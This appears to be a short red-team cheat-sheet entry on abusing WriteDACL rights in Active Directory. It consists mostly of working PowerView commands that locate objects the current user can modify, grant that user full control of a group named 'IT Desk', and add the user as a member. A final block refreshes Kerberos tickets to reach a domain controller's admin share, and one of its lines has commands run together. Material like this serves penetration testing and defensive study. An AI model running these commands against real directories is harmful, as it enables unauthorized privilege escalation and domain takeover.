 # Abuse WriteDACL

Find domain groups that current user has `WriteDACL` access right to:

```
PowerView3 > Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | % {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | % {if ($_.Identity -eq $("$env:UserDomain\$env:UserName")) {$_}} | ? {$_.ActiveDirectoryRights -like "*WriteDacl*"}
```

The attacker can take the full control of discovered groups and then add a users to them:

```
PowerView3 > Add-DomainObjectAcl -TargetIdentity "IT Desk" -PrincipalIdentity snovvcrash -Domain tricky.com -Rights All -Verbose
PowerView3 > Add-DomainGroupMember -Identity "IT Desk" -Members snovvcrash -Verbose
```

#### Group membership will take its sweet time to be updated within target user's TGT. To [force](http://woshub.com/how-to-refresh-ad-groups-membership-without-user-logoff/) the update one may purge existing tickets and request new TGT:

```
Cmd > klist purgeCmd > gpupdate /forceCmd > dir \\dc1.megacorp.local\c$
```
